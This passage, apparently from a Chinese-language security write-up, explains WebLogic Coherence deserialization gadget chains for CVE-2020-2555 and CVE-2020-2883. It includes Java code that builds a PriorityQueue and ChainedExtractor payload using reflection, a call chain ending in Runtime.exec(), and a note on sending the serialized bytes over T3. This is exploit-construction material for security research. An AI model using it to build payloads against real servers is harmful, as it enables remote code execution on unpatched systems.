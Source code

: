 ```java

```

结合T3打的话就把生成的weblogic_2020_2551.ser字节码拼到payload里



#### 拓展

BadAttributeValueExpException在jdk7中没有toString，但是有compare()，而且ChainedExtractor是实现了Comparator接口的，什么原版CC2出现了

初始化一个正常的comparator，add后反射修改m_aExtractor

```java
ReflectionExtractor reflectionExtractor = new ReflectionExtractor("toString", new Object[]{});
        ValueExtractor[] valueExtractors1 = new ValueExtractor[]{
                reflectionExtractor
        };

        ChainedExtractor chainedExtractor1 = new ChainedExtractor(valueExtractors1);

        PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor1));
        queue.add("1");
        queue.add("1");

        Class clazz = ChainedExtractor.class.getSuperclass();
        Field m_aExtractor = clazz.getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);
        m_aExtractor.set(chainedExtractor1, valueExtractors);

        Field f = queue.getClass().getDeclaredField("queue");
        f.setAccessible(true);
        Object[] queueArray = (Object[]) f.get(queue);
        queueArray[0] = Runtime.class;
        queueArray[1] = "1";
```



## CVE-2020-2883

CVE-2020-2555调用链：

```java
 * gadget:
 *      BadAttributeValueExpException.readObject()
 *          com.tangosol.util.filter.LimitFilter.toString()
 *              com.tangosol.util.extractor.ChainedExtractor.extract()
 *                  com.tangosol.util.extractor.ReflectionExtractor.extract()
 *                      Method.invoke()
 *                      ...
 *                      Runtime.getRuntime.exec()

```
